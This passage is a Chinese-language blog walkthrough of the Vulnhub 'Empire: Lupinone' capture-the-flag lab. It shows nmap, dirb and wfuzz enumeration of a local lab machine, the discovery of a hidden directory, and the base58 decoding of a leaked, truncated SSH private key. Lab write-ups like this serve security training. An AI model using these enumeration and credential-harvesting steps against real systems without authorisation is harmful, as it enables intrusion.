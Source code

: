 ```yaml
---
layout: post
title: "EMPIRE: LUPINONE"
subtitle: "EMPIRE: LUPINONE"
date: 2022-12-08 14:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
published: true
---
```

## EMPIRE: LUPINONE

Difficulty: Medium

kali攻击机ip:192.168.30.130

靶机ip:192.168.30.135

### 网络扫描

```shell
nmap -A 192.168.30.135
```

开放22、80端口，扫描文件

```shell
dirb 192.168.30.135 
```

发现robots.txt，内容：

```
User-agent: *
Disallow: /~myfiles
```

```html
curl http://192.168.30.135/~myfiles/

##
<!DOCTYPE html>
<html>
<head>
<title>Error 404</title>
</head>
<body>

<h1>Error 404</h1>

</body>
</html>

<!-- Your can do it, keep trying. -->
```

查找其他目录下\~myfiles文件，无果。查找和\~myfiles文件格式类似文件

```shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.30.135/~FUZZ
```

找到\~secret,code:301。使用浏览器访问

```
Hello Friend, Im happy that you found my secret diretory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64 
```

Tps：用户名：icex64，sshkey

```
cGxD6KNZQddY6iCsSuqPzU......zDgKm2gSRN8gHz3WqS
```

base58解码：

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEA......4ORlsC
iUJ66WmRUN9EoVlkeCzQJwivI=
-----END OPENSSH PRIVATE KEY-----
```